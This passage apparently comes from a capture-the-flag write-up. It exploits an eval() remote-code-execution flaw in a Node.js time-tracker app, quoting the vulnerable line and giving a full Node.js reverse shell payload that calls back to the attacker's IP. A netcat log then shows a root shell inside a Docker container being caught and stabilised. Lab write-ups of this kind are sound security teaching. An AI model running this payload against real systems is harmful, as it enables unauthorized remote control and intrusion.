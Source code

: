 ```javascript
        response.redirect('/');;    
    }
    
});
...
```
{: file="/home/claire-r/timeTracker-src/app.js" }

This eval call with unsanitized user input is responsible for the RCE vulnerability.
```javascript
let timeCalc = parseInt(eval(request.body.time)); 
```

### Getting a shell inside the Docker container

Logging in to `http://10.10.142.44:8080/` with the credentials we got from the database.

> If we were not successful at cracking the hashes we got from the database, we would still be able to login to the web application by changing the password hashes or adding a new user, since we have direct access to mysql database.
{: .prompt-tip }

We get an input form that makes a POST request to `/time` and a table listing time spent by users.

![Port 8080 Dashboard](port_8080_dashboard.webp){: width="1000" height="400" }

Since we already know our input will be passed to the `eval` function using a node.js reverse shell payload as input.

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(443, "10.11.63.57", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

![Sending reverse shell payload](reverse_shell_payload.webp){: width="600" height="500" }

With this, we get a shell inside the docker container.

Using `script` to stabilize the shell.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.63.57] from (UNKNOWN) [10.10.142.44] 50034
/usr/bin/script -qc /bin/bash /dev/null
root@de0610f51845:/usr/src/app# ^Z
zsh: suspended  nc -lvnp 443
                                                                                                                               
$ stty raw -echo; fg     
[1]  + continued  nc -lvnp 443

root@de0610f51845:/usr/src/app# export TERM=xterm
root@de0610f51845:/usr/src/app# stty rows 26 cols 127
root@de0610f51845:/usr/src/app# 
```
